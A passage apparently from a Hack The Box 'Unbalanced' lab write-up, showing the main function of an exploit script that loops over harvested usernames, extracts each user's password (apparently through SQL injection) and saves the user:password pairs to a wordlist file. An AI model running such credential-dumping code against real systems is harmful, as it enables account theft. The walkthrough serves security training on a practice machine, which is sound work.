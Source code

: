 Finally, we create the main function.

```python
if __name__ == "__main__":
    usernames = get_users()
    creds = [] # List of all creds, can be used to write to file
    for user in usernames:
        print(f"[*] Getting password of {user}...\n")
        pw = get_password(user)
        clear()
        print(f"[+] Got password of {user}: {pw}")
        creds.append([user,pw])
    
    # Write creds to file
    with open("wordlist.txt", "w") as file:
        for cred in creds:
            file.write(f"{cred[0]}:{cred[1]}")
```

Now we can run the exploit to get all usernames:

![Running the exploit](/assets/htb/Unbalanced/http-proxy/http/sqli.gif)
